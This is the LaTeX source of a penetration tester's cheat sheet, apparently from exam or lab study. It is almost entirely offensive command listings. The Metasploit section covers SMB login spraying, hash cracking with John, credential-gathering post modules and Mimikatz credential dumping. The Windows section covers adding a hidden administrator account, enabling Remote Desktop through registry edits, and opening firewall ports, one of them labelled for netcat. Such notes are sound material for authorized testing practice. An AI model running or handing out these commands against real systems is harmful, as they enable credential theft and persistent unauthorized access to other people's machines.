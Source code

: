 \documentclass[a4paper,12pt, twoside,]{report}
\begin{document}
\subsection{Metasploit}
\begin{lstlisting}[caption={Metasploit},label=msf]

*@To make a session more stable @*
set Autorunscript post/windows/manage/migrate

*@Importing Nmap into Metasploit@*
db_import *.xml

*@SMB login spray and pray@*
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN 
set SMBUser user
set SMBPass password
services -p 445 -R  
run 

*@Running john in msfconsole against found hashes@*
use auxiliary/analyze/jtr_crack_fast 
run

*@Good post modules to run on windows@*
run post/windows/gather/credentials/credential_collector
run post/windows/gather/credentials/gpp
run post/windows/gather/enum_ms_product_keys
 ***@In the real world there is no proof.txt, this is a good secret proof for a machine without putting secret data of your client in the report@***

*@Mimikatz@*
load mimikatz
 msv
kerberos

\end{lstlisting}
\newpage
\subsection{Windows Help}
\begin{lstlisting}[caption={Windows commands},label=wincommands]
*@Long File/Foldernames@*
***@More than 8 characters are a problem@***
cd "Documents and Settings"
This is a really long filename.123.456.789.txt 
-> Thisis~1.789
More under : 
https://support.microsoft.com/en-us/help/142982/how-windows-generates-8.3-file-names-from-long-file-names


*@Activating Rdesktop from a win shell@*
net user /add ucki ucki
net localgroup administrators ucki /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f 
sc config TermService start= auto 
net start Termservice
netsh.exe firewall add portopening TCP 3389 "Rm"
netsh.exe firewall add portopening TCP 443 "NC"

*@Checking a service@*
sc qc <servicename>


*@sc qc to check a service , net start to show all service@*

*@For good Systemoverview@*
Systeminfo
\end{lstlisting}
\end{document}

